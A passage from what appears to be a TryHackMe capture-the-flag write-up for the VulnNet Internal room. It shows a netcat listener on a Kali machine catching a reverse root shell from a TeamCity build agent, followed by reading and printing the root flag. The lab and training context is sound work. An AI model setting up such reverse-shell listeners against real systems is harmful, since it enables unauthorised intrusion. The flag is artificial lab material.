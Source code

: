 ![reverse-shell-run.png](files/reverse-shell-run.png)

We now have a root shell:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ nc -nlvp 4444    
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.190.83] 48482
bash: cannot set terminal process group (481): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnnet-internal:/TeamCity/buildAgent/work/2b35ac7e0452d98f# cat /root/root.txt
<uildAgent/work/2b35ac7e0452d98f# cat /root/root.txt              
THM{e8996faea46df09dba5676dd271c60bd}
~~~

Root flag: `THM{e8996faea46df09dba5676dd271c60bd}`
